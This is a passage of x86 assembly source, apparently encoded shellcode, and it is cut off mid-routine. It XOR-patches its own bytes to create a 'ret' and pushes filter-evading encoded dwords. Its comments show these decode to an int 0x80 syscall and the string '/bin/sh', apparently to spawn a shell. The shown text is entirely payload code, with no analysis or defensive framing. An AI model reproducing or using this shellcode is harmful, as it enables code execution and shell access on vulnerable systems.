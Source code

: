 ```
        push eax  /* ebx = 0 */
        push eax
        push eax
        push ecx  /* esi = buffer */
        push eax
        popad
        dec edx   /* edx = 0xffffffff */

patch_ret:
        /* 0x44 ^ 0x78 ^ 0xff == 0xc3 (ret) */
        push edx
        pop eax
        xor al, 0x44
        push edx
        push 0x30
        pop edx
        push edx
        pop edx
        xor [esi+edx*2+0x31], al
        pop edx

build_stack:
        /* push 0x80cd0b42 */
        push edx
        pop eax
        xor eax, 0x30433230
        xor eax, 0x4f713972
        push eax
        push esp
        pop ecx
        xor [ecx], dh
        inc ecx
        xor [ecx], dh

        /* push 0x8de18953 */
        push edx
        pop eax
        xor eax, 0x31443030
        xor eax, 0x435a4663
        push eax
        push esp
        pop ecx
        xor [ecx], dh

        /* push 0x52e3896e */
        push edx
        pop ecx
        inc ecx
        push ecx
        pop eax
        xor eax, 0x31443034
        xor eax, 0x6358465a
        push eax
        push esp
        pop ecx
        inc ecx
        xor [ecx], dh
        inc ecx
        xor [ecx], dh

        /* push 0x69622f68 */
        push edx
        pop ecx
```